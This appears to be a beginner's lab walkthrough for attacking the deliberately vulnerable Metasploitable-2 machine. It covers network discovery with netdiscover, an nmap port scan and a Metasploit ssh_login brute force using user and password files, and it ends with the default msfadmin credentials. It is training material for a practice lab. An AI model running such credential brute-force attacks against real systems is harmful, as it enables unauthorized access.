 Penetration Testing on Vulnerable machine
Metasploitable-2
Set Both machine on same network
Open Linux and start its terminal
Step 1:- Scan your network with netdiscover command
We Found that Ip 192.168.235.135 is the IP of our Target Machine.
Step2:- Use nmap –sS –sV –A –p1-1000
To scan port of target machine from port number 1 to 1000We See that Port Number 22/tcp whose state is open and have service SSH running on it.
Step3 :- Use msfconsole
It provide various auxiliary,payloads and exploits to enter machine
Step4 :- Search ssh_login We try to enter from port no 22 which is ssh so we search its auxiliaries.
Step5 :- Use 0 auxilirary/scanner/ssh/ssh_login.
Step6:- Show Options This command give you the information about the ssh_login auxilirary Options.
Step7 :- Now set the Options according to our recquirment.
 set RHOSTS = your target Machine IP
 set STOP_ON_SUCCESS = true
 Set USER_FILE = your user file for attack
 set PASS_FILE = your password file associated for user file
Step 8:- Show Options to check the options you set are successful.
Step 9:- Exploit it will start the execution of attack by doing continuously
striking id password of id file and pass file.
When it got the Success it stop the execution.
Step 10:- Check your user by whoami Command.
Step11:- Open the target Machine (Metasploitable-2)
Enter the ID and Pass which got success in attack
Id => msfadmin
Pass=> msfadmin
